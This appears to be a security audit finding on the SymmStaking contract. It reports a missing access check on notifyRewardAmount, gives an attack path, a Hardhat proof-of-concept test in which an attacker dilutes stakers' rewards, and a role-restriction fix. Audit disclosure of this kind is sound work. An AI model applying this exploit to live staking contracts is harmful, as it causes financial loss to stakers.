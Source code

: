 Hot Butter Snake

High

# Reward manipulation in `SymmStaking`  due to insufficient authentication in notifyRewardAmount

### Summary

The SymmStaking contract contains a critical vulnerability in the [notifyRewardAmount](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275). This vulnerability allows unauthorized users to manipulate reward distribution for whitelisted reward tokens by setting arbitrarily low reward amounts, resulting in financial losses for stakers and unfair reward allocation. 

### Root Cause

The function `notifyRewardAmount` in [SymmStaking:275](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275) is not restricted to administrators or authorized entities



### Attack Path

1.  A legitimate user stakes tokens for a predefined duration (DEFAULT_REWARDS_DURATION)
2. The staking contract calculates rewards based on an initial reward rate set by the admin.
3. An attacker (with a minimal amount of tokens) calls notifyRewardAmount with a very small value, effectively reducing the per-token reward calculation.
4. When the legitimate user attempts to claim rewards, they receive significantly fewer tokens than expected, due to the manipulated reward rate.
5. This issue arises because there is no authentication or role restriction in notifyRewardAmount, allowing any entity with tokens to alter reward distribution.


### Impact

The impact is high as this vulnerability allows unauthorized users to manipulate staking rewards rate, leading to unfair distribution and potential financial losses.

### PoC

Steps to run PoC - 

Paste the below test block in the file `symmStaking.behavior.ts`

```typescript
	it("Should show reward manipulation due to insufficient authentication of notifyRewardAmount", async function () {
			// Scenario:
			// 1. user deposits tokens (equal to 1 week)
			// 2. time passes, user claims rewards (based on reward rate set by admin)
			// 4. Attacker updates the notifyRewardAmount to very small amount
			// 5. Time passes, user claims rewards (based on the new reward rate) which is very small due to attacker's manipulation

			// 1 week in seconds
			const depositAmount = "604800"
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)

			// Admin mints and notifies rewards
			const rewardAmount = "604800"
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])

			// Fast-forward time by 200 seconds
			await time.increase(200)

			// User claims rewards. User should get 200 tokens (200 seconds * 1 token/sec)
			let user1BalanceBefore = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			let user1BalanceAfter = await usdtToken.balanceOf(user1.address)
			const user1Claimed = user1BalanceAfter - user1BalanceBefore
			expect(user1Claimed).to.equal("200")

			//Full period reward should be equal to the notified reward amount by admin
			let fullPeriodReward = await symmStaking.getFullPeriodReward(await usdtToken.getAddress())
			expect(fullPeriodReward).to.equal(rewardAmount) // Should match the notified reward amount

			const rewardAmount2 = "1"
			//Transfer some tokens to attacker(Ideally the attacker would have some tokens). Just for testing purposes
			await usdtToken.connect(admin).transfer(attacker.address, rewardAmount2)
			// Attacker updates the notifyRewardAmount to very small amount
			await usdtToken.connect(attacker).approve(await symmStaking.getAddress(), rewardAmount2)
			// Attacker notifies the reward amount with a very small amount
			await symmStaking.connect(attacker).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount2])

			// Fast-forward time by 200 seconds
			await time.increase(200)

			// Ideally user should again get 200 tokens(200 seconds * 1 token/sec), but now the reward amount is very small
			// As the attacker has set the reward amount to very small
			// The reward amount is very small and user gets very less tokens
			user1BalanceBefore = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			user1BalanceAfter = await usdtToken.balanceOf(user1.address)
			const user1Claimed2 = user1BalanceAfter - user1BalanceBefore

			// User get less than 200 tokens for same deposit amount and same time period
			expect(user1Claimed2).to.not.equal("200")

			// Since small amount is passed the reward per token is very small and calculation truncates to 0.
			// So for any whitelisted reward token , the getFullPeriodReward returns zero
			fullPeriodReward = await symmStaking.getFullPeriodReward(await usdtToken.getAddress())
			console.log("fullPeriodReward", fullPeriodReward)
			expect(fullPeriodReward).to.equal("0")
		})
```

### Mitigation

Add `REWARD_MANAGER_ROLE` or `DEFAULT_ADMIN_ROLE` to  `notifyRewardAmount`

```diff

- function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant whenNotPaused {
+ function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant whenNotPaused onlyRole(REWARD_MANAGER_ROLE) {

```